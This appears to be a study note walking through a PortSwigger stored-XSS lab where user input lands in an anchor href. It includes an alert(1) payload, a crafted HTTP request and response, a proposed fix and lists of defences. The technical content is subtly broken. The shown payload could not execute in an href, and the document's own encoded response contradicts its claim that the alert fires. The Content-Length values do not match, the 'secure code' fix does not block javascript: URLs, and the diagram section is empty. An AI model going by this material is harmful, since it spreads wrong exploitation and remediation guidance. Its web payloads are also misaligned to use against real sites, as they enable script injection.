

## Stored XSS into Anchor `href` Attribute with Double Quotes HTML Encoded

### Understanding the Vulnerability

In this scenario, we are dealing with a Stored XSS vulnerability where the malicious script is stored in the database and then rendered in the HTML output. Specifically, the vulnerability arises from the `href` attribute of an anchor (`<a>`) tag, which is double-quoted and HTML-encoded.

#### Example Scenario

Consider a web application that allows users to post comments. Each comment includes a name, email, and website. The website field is particularly vulnerable because it is used to generate an anchor tag with an `href` attribute.

```html
<a href="http://example.com">Visit Example</a>
```

If the `href` attribute is not properly sanitized, an attacker can inject a malicious script.

### Exploitation Steps

#### Step 1: Identify the Vulnerable Field

First, identify the field that is vulnerable to XSS. In this case, it is the `website` field.

#### Step 2: Test Input Encoding

Next, test the input encoding to understand how the application handles special characters. The lecturer mentions that the `<` character is URL-encoded in the comment field and the name field, but not in the website field. Similarly, the `"` character is encoded in the website field.

```plaintext
Comment: <script>alert(1)</script>
Name: <script>alert(1)</script>
Website: "<script>alert(1)</script>"
```

#### Step 3: Craft the Exploit String

To exploit the vulnerability, craft an exploit string that will be executed when the anchor tag is clicked. The exploit string should be designed to bypass the encoding rules.

```plaintext
Exploit String: "<script>alert(1)</script>"
```

#### Step 4: Submit the Comment

Submit the crafted comment through the web application's interface.

```plaintext
Name: test
Email: test@test.com
Website: "<script>alert(1)</script>"
```

#### Step 5: Verify the Exploit

After submitting the comment, verify that the exploit string is rendered correctly in the HTML output.

```html
<a href="&quot;&lt;script&gt;alert(1)&lt;/script&gt;">Visit Example</a>
```

When the anchor tag is clicked, the JavaScript alert should pop up, confirming the successful exploitation of the XSS vulnerability.

### Full HTTP Request and Response

#### HTTP Request

```http
POST /submit_comment HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

name=test&email=test%40test.com&website=%22%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 123

<!DOCTYPE html>
<html>
<head>
    <title>Comments</title>
</head>
<body>
    <div>
        <a href="&quot;&lt;script&gt;alert(1)&lt;/script&gt;">Visit Example</a>
    </div>
</body>
</html>
```

### Mermaid Diagrams

#### Network Topology



### Common Pitfalls and Detection

#### Pitfalls

- **Improper Input Validation**: Failing to validate user inputs can lead to XSS vulnerabilities.
- **Insufficient Sanitization**: Not properly sanitizing inputs before rendering them in the HTML output.
- **Encoding Mismatch**: Different fields may have different encoding rules, leading to inconsistent behavior.

#### Detection

- **Automated Tools**: Use tools like Burp Suite, OWASP ZAP, or Acunetix to scan for XSS vulnerabilities.
- **Manual Testing**: Manually test input fields by injecting payloads and observing the output.

### How to Prevent / Defend

#### Secure Coding Fixes

##### Vulnerable Code

```html
<a href="{{ website }}">Visit Website</a>
```

##### Secure Code

```html
<a href="{{ website | escape }}">Visit Website</a>
```

#### Configuration Hardening

- **Content Security Policy (CSP)**: Implement CSP to restrict the sources from which scripts can be loaded.
- **Input Validation**: Validate all user inputs to ensure they conform to expected formats.
- **Output Encoding**: Always encode user inputs before rendering them in the HTML output.

#### Detection and Prevention

- **Regular Audits**: Conduct regular security audits to identify and mitigate XSS vulnerabilities.
- **Security Training**: Train developers on secure coding practices and the importance of input validation and sanitization.

### Practice Labs

For hands-on practice with Stored XSS vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various types of XSS vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates web application vulnerabilities.

By thoroughly understanding and practicing these concepts, you can effectively prevent and defend against XSS vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/09-Lab 8 Stored XSS into anchor href attribute with double quotes HTML encoded/01-Introduction to Cross-Site Scripting (XSS)|Introduction to Cross-Site Scripting (XSS)]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/09-Lab 8 Stored XSS into anchor href attribute with double quotes HTML encoded/00-Overview|Overview]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/09-Lab 8 Stored XSS into anchor href attribute with double quotes HTML encoded/03-Practice Questions & Answers|Practice Questions & Answers]]
